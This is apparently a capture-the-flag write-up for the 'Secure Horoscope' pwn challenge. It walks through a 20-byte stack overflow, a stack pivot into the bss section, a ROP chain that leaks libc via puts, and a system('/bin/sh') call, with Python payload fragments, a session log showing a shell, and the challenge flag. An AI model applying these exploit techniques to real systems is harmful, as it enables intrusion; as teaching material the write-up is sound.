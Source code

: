 # Secure Horoscope
`checksec` output:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
Looking at the decompiled C in `ghidra`:
```c
int main(int argc,char **argv) {
    char buf [40];
    int i;
  
    i = 0;
    puts("We fixed some bugs in our last horoscope, this one should be secure!\n");
    puts("To get started, tell us how you feel");
    fflush(stdout);
    fgets(buf,0x28,stdin);
    printf("feeling like %s? That\'s interesting.",buf);
    fflush(stdout);
    for (; i != 2; i = i + 1) {
        puts("please put in your birthday and time in the format (month/day/year/time) and we will have y our very own horoscope\n");
        fflush(stdout);
        getInfo();
        puts("want to try again?\n");
        fflush(stdout);
    }
    puts("too bad, we don\'t have the resources for that right now >:(");
    fflush(stdout);
    return 0;
}
```
`main` read 39 bytes + null byte into a 40 bytes buffer, so no overflow vulnerability.<br>
However `main` calls `getInfo`:
```c
void getInfo(void) {
    char info [100];
  
    memset(info,0,100);
    read(0,info,0x8c);
    puts(info);
    puts("hm, I\'ll have to think about what this means. I\'ll get back to you in 5 business days.");
    fflush(stdout);
    return;
}
```
`getInfo` has a declares a 100 byte buffer and then reads 140 bytes into it. Although when looking at the assembly, the buffer is actually 112 bytes.
```
        004007cf 48 8d 45 90     LEA        RAX=>info,[RBP + -0x70]
        004007d3 ba 8c 00        MOV        EDX,0x8c
                 00 00
        004007d8 48 89 c6        MOV        RSI,RAX
        004007db bf 00 00        MOV        EDI,0x0
                 00 00
        004007e0 e8 cb fd        CALL       <EXTERNAL>::read
```
`140 - (112 (buffer size) + 8 (saved rbp)) = 20`<br>
This results in a potential overflow of 20 bytes.<br>
Typically in buffer overflow attacks there are a few options:
1. return address is overwritten with a function that outputs a flag
2. shell is obtained via a ROP chain
3. shell is obtained via a return to libc attack

The binary does not have any random flag printing functions lying around, so option 1 is impossible. This leaves options 2 and 3. One issue is that 20 bytes is only enough for two gadgets and not enough to perform a full ROP or ret2libc attack.<br>

When dealing with buffers declared locally in functions, compilers will store them on the stack. If we can overwrite `rsp` (the stack pointer) with a pointer to somewhere we want to write to, when the function allocates the buffer on the stack and writes to it, it is instead writing to whatever address we put into `rsp`.<br>

The attack looks something like this:<br>
1. overwrite `rsp` with a pointer to the binary's bss section
2. force `getInfo` to call itself
3. write a ROP chain that leaks dynamic address of puts and calls `getInfo`
4. overwrite `rsp` with a pointer to libc bss section
5. write a ROP chain that calls `system("/bin/sh\x00")`

## Overwriting rsp
In C every function that returns begins with
```x86asm
push rbp
mov rbp, rsp
```
and ends with
```x86asm
leave
; equivalent to
; mov rsp, rbp
; pop rbp
```
The value of `rbp` is stored on the stack, allowing us to overwrite by overflowing the buffer. Afterwards instead of jumping to the beginning of `getInfo`, jump to after the function prolouge. This means when the function ends it will put our `rbp` into `rsp`. Now we have control over `rsp`.
```python
payload =  b''.ljust(112, b'0');         # fill the buffer
payload += p64(rop_chain + buf_len);     # overwrite saved value of rbp on the stack
payload += p64(get_info_skip_prolouge);  # overwrite return address
io.send(payload);
```

## Leaking libc base address
Once `rsp` is overwritten with the address of the bss section, when `getInfo` is called again we can write a ROP chain into the bss section and then trigger it by overwritting the return address of the function.
```python
attack =  p64(pop_rdi);
attack += p64(file.got['puts']);
attack += p64(file.plt['puts']);
attack += p64(main);
```

## Obtaining shell
After the libc address is leaked the same process above can be used to build a ROP chain in the bss section that calls `system("/bin/sh\x00")`.
```python
shell =  p64(pop_rdi);
shell += p64(rop_chain + 64);
shell += p64(leak + (libc.symbols['system'] - libc.symbols['puts']));
shell += p64(main);
```
When I tested the attack against the server the would always segfault. I assumed this was because the binary bss section was not large enough, so I overwrite `rsp` again except pointing it at the libc bss section this seemed to solve the issue.

## Running the attack
```
[+] Opening connection to sechoroscope.sdc.tf on port 1337: Done
[*] '/home/runner/nothingtosee/SECURE_HOROSCOPE/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/runner/nothingtosee/SECURE_HOROSCOPE/secure_horoscope'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
b'LEAKED BYTES equ pyx\xa1\xaf\x7f'
LIBC ADDRESS equ 0x7fafa1707000
[*] Switching to interactive mode
@
hm, I'll have to think about what this means. I'll get back to you in 5 business days.
$ ls
flag.txt
secureHoroscope
$ cat flag.txt
sdctf{Th0s3_d4rN_P15C3s_g0t_m3}
```
## Flag: sdctf{Th0s3_d4rN_P15C3s_g0t_m3}